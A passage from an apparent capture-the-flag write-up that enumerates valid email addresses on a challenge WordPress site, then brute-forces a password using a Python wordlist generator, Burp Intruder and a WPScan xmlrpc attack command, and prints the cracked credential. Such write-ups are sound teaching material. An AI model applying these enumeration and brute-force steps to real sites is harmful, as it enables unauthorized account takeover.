 ![](/img/santhacklaus-2019/screen-5.png)

The email format to bruteforce was j.doe@cuttingedge.com and j.doe@flyingeagle.com.

![](/img/santhacklaus-2019/screen-6.png)

`admin@cuttingedge.com` was not a valid email.

![](/img/santhacklaus-2019/screen-7.png)
![](/img/santhacklaus-2019/screen-8.png)

However, with the username obtained by Wpscan we have obtained 2 valids address.

```
s.parker@cuttingedge.com
j.yestin@cuttingedge.com
```

### 2.3. Valid credentials

The login form was not protected against bruteforce attack. Then, we have bruteforced password for the emails previously obtained.

Here is a little python script to generate a nice wordlists.

```python
import datetime

for i in range(1,13):
    for j in range(2012, 2020):
        password = "@@" + datetime.date(2015, i, 1).strftime('%B')
        password += str(j) + "@@"
        print(password)
```

And Burp Pro intruder did all the work !

![](/img/santhacklaus-2019/screen-9.png)

This technique permited to found s.parker password.

`s.parker@cuttingedge.com:@@January2018@@`

{{< protips "If you don't have Burp Pro (humf huge mistake), you can abuse of xmlrpc mechanism to perform massive bruteforce attack with WPScan." >}}

```md
[th1b4ud@th1b4ud-pc]$ wpscan --url http://survive-all.santhacklaus.xyz -U "s.parker@cuttingedge.com" -P wordlist-pwd.txt

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - s.parker@cuttingedge.com / @@January2018@@
  
Trying s.parker@cuttingedge.com / @@January2019@@ Time: 00:00:00 - (10 / 10) 100.00% Time: 00:00:00

[i] Valid Combinations Found:
 | Username: s.parker@cuttingedge.com, Password: @@January2018@@
```
